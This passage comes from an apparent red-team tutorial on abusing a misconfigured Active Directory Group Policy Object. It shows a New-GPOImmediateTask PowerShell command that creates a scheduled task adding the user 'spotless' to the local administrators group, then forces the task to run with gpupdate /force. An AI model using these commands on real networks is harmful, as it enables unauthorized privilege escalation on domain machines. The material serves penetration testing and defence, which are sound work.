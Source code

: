 One of the ways to abuse this misconfiguration and get code execution is to create an immediate scheduled task through the GPO like so:

```csharp
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-43-46.png)

The above will add our user spotless to the local `administrators` group of the compromised box. Note how prior to the code execution the group does not contain user `spotless`:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-40-11.png)

### Force Policy Update

ScheduledTask and its code will execute after the policy updates are pushed through \(roughly each 90 minutes\), but we can force it with `gpupdate /force` and see that our user `spotless` now belongs to local administrators group:

![](../../.gitbook/assets/screenshot-from-2018-12-20-13-45-18.png)

### Under the hood
